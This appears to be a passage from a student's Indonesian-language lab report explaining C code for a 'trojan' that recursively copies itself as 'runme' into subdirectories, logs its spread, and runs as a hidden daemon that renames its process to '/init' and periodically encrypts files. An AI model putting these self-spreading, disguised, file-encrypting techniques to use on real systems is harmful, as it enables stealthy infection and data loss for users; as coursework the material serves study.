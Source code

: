    - Skip direktori tersembunyi dan file . / ...
   - Kalau folder belum ada runme → copy.
   - Lanjut ke subdirektori secara rekursif.

#### 2.c **copy_file()**
 ```bash
 int in = open(src, O_RDONLY);
 if (in < 0) return;

 int out = open(dst, O_WRONLY | O_CREAT | O_TRUNC, 0755);
 if (out < 0) {
    close(in);
    return;
 }

 char buf[4096];
 ssize_t n;
 while ((n = read(in, buf, sizeof(buf))) > 0) {
    write(out, buf, n);
 }

 close(in);
 close(out);

 snprintf(logbuf, sizeof(logbuf), "[COPY] %s -> %s", src, dst);
 log_trojan(cwd, logbuf);
 ```
   - Buka file sumber dan tujuan.
   - Salin isinya secara blok.
   - Tulis aktivitas ke trojan_log.txt.

### 3. Bagian: Logging
### Fungsi:
Ini sebenarnya tidak ada perintahnya didalam penugasan, tetapi saya buat hanya untuk membantu saya Mencatat aktivitas enkripsi file (log.txt) dan penyebaran trojan (trojan_log.txt) ke file log yang berada satu tingkat di atas direktori kerja saat ini.

### 4. Bagian: Main Daemon
### Fungsi:
Menjalankan proses daemon tersembunyi yang secara berkala setiap 30 detik melakukan enkripsi dan penyebaran trojan. Proses ini tidak terlihat oleh user (detach dari terminal).

### Penjelasan Kode:
#### 4.a **main()**
 ```bash
 pid_t pid = fork();
 if (pid < 0) exit(EXIT_FAILURE);
 if (pid > 0) exit(EXIT_SUCCESS); // parent keluar

 umask(0);
 if (setsid() < 0) exit(EXIT_FAILURE);

 char cwd[PATH_MAX];
 if (!getcwd(cwd, sizeof(cwd))) exit(EXIT_FAILURE);
 if (chdir(cwd) < 0) exit(EXIT_FAILURE);

 close(STDIN_FILENO);
 close(STDOUT_FILENO);
 close(STDERR_FILENO);

 prctl(PR_SET_NAME, "/init", 0, 0, 0);
 strncpy(argv[0], "/init", MAX_NAME_LENGTH - 1);
 ```